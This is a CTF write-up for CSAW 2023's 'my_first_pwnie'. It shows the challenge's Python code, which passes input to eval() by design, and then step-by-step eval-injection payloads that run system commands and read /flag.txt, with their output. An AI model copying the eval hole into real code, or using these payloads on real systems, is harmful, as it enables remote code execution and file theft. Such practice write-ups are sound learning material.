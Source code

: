 ```yaml
---
Source: https://ctf.csaw.io/challenges#my_first_pwnie-30
created: 2023-09-16
tags:
  - ctf
  - writeups
  - csaw2023
Type: "[[Fleeting notes]]"
---
```

Description:
```
You must be this 👉 high to ride.

Note: flag is in `/flag.txt`

Author: `ElykDeer`

---

Connect with:

`nc intro.csaw.io 31137`

 [my_first_pwnie.py](https://ctf.csaw.io/files/aad33fd8e9d2e834d61f2c3a8aadbf81/my_first_pwnie.py?token=eyJ1c2VyX2lkIjo4MjYsInRlYW1faWQiOjM0NCwiZmlsZV9pZCI6MjN9.ZQXWAQ.hyK738hwmxOAfNpHWIphTh8_AfA "my_first_pwnie.py")
```
After downloading the my_first_pwnie.py. I opened it.
```python
#!/usr/bin/env python3

# Pwn mostly builds on top of rev.
# While rev is more about understanding how a program works, pwn is more about figuring out how to exploit a program to reach the holy grail: Arbitrary Code Execution
#
# If you can execute arbitrary code on a system, that system might as well be yours...because you can do whatever you want with it! (this is the namesake of "pwn".....if you pwn a system, you own the system)
# Of course, that comes with the limitations of the environment you are executing code in...are you a restricted user, or a super admin?
# Sometimes you can make yourself a super admin starting from being a restricted user.....but we're not gonna do that right now.
#
# For now, I want you to figure out how to execute arbitrary commands on the server running the following code.
#
# To prove to me that you can excute whatever commands you want on the server, you'll need to get the contents of `/flag.txt`

try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")

```
After searching online I found out that eval function is vulnerable. We can use it to execute any python code exploiting this function.
At first, I tried with this in the password field.
```python
__import__('os').system('date')
```
The output was:
```
Sat Sep 16 16:22:59 UTC 2023
```
Great!
Then, I used the command ls to see the files inside the current folder.
```python
__import__('os').system('ls')
```
Output:
```
my_first_pwnie
```
So, the flag.txt file is not in the current folder.
Then, I executed:
```python
__import__('os').system('ls /')
```
The output was:
```
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
Great! The flag is in the root folder.
All is left is just one command:
```python
__import__('os').system('cat /flag.txt')
```
It displays the flag:
```
csawctf{neigh______}
```